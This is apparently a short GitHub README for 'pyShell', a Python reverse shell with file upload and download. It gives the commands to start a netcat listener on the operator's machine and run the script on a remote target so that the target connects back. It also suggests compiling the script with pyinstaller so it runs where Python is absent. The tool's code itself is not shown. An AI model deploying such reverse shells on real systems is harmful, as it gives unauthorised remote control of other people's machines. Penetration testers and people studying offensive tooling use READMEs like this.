 # pyShell

pyShell is a reverse shell with upload/download functionality. Deploy and execute pyShell.py on the remote system and catch with netcat.

Usage: on your local system run.      
       nc -lvp <port number>
       on the remote system run.       
       python3 pyshell.py -t <target ip> -p <port number>
  
Requirements: Remote system must have python3 installed, or pyshell.py must be compiled with pyinstaller.

Recommendation: Install rlwrap and prefix local receiver command with rlwrap for improved tab completion.
                rlwrap nc -lvp <port number>

![image](https://raw.githubusercontent.com/MK-Kaiser/portfolio/master/images/pyShell.gif)
